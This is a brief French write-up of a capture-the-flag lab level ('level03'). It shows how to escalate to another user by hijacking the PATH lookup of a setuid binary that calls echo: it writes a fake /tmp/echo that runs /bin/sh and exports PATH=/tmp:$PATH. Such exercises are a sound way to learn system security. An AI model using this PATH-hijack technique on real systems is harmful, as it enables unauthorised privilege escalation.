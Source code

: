 # level03

1) Commande utilisée pour trouver le fichier appartenant à `flag03` :

```bash
ls -l
```

2) Résultat notable trouvé :

Fichier : `./level03` appartenant à `flag03`

3) Exécution du binaire trouvé :

```bash
chmod +x level03
Exploit me
```

3) Inspection du binaire avec strings et file :

```bash
file level03
strings -n 6 level03 | grep echo
```
4) Résultats : 

Le binaire utilise echo depuis son PATH dans l'environnement et possède les droits de son créateur (setuid / setgid).

5) Objectif :

Détourner echo vers une invite de commande afin de lancer `getflag`.

```bash
echo '/bin/sh' > /tmp/echo
chmod +x /tmp/echo
```
Maintenant le script tmp/echo ouvre une invite de commande, et ensuite on change le PATH d'echo vers tmp/echo dans l'environnement.

```bash
export PATH=/tmp:$PATH
```

6) Nous voilà maintenant dans une invite de commande possédant les droits de flag03, il ne nous reste plus qu'à appeler getflag.

```bash
getflag
```
